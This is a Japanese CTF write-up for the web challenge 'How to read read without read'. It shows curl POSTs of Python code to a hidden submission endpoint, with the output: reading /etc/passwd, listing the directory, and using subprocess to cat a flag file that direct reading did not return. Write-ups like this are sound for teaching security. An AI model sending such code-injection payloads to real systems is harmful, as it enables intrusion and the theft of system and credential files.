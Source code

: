 # How to read read without read:Web:pts
Can you bypass their WAF 😉 they are so confident about it.  
[Click here](https://ch2.sbug.se/)  

# Solution
アクセスすると何やらコードが実行できそうなページだが送信できない。  
[site.png](site/site.png)  
```bash
$ curl https://ch2.sbug.se/
~~~
  <!DOCTYPE html>
<html>
<head>
    <title>How to read read without read</title>
<script async src='/cdn-cgi/challenge-platform/h/b/scripts/invisible.js'></script></head>
<body>
    <h2>How to read read without read</h2><br>
    <div class="submitter">
    <form id="submitter" method="post" action="submit">
        <label><b>Enter your code here</b>
        </label>
        <textarea type="text" name="code" id="code" placeholder="print('hello world')"></textarea>
        <br><br>
        </b>
        </label>
        <!--input type="button" name="btn" id="btn" value="Run"!-->
    </form>
</div>
~~~
```
ボタンが隠されているようだ。  
普通にPOSTすればよいが、言語が不明なのでいろいろと試す。  
```bash
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(list('abc'))"
<html>['a', 'b', 'c']
~~~
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(open('/etc/passwd').read())"
<html>root:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
~~~
```
Pythonのようだ。  
ディレクトリを覗く。  
```bash
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(__import__('os').listdir())"
<html>['static', 'homeapp', 'flag', 'entrypoint.sh', '.git', 'read', 'init.sql', '.idea', 'dockerfile', 'sampleApp', 'docker-compose.yml', '.gitignore', '.env', 'requirements.txt', 'manage.py', 'file.sh', 'nginx']
~~~
```
`read`なるファイルがあるので読み出せばよいが、readが使えない(500エラーになる)ようだ。  
subprocessを使えばよい。  
出力が崩れたのでbase64をかませている。  
```bash
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(__import__('subprocess').check_output(['cat','read']))"
<html>b'SBCTF{<a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="2b7c647c74521b5e74436b5d18">[email&#160;protected]</a><a href="/cdn-cgi/l/email-protection" class="__cf_email__" data-cfemail="85dae7fcf5c5">[email&#160;protected]</a>$$3d_!t}\n'
~~~
$ curl -X POST https://ch2.sbug.se/submit -d "code=print(__import__('base64').b64encode(__import__('subprocess').check_output(['cat','read'])))"
<html>b'U0JDVEZ7V09XX3kwdV9oQHYzX2J5cEAkJDNkXyF0fQo='
~~~
$ echo "U0JDVEZ7V09XX3kwdV9oQHYzX2J5cEAkJDNkXyF0fQo=" | base64 -d
SBCTF{WOW_y0u_h@v3_byp@$$3d_!t}
```
flagが得られた。  

## SBCTF{WOW_y0u_h@v3_byp@$$3d_!t}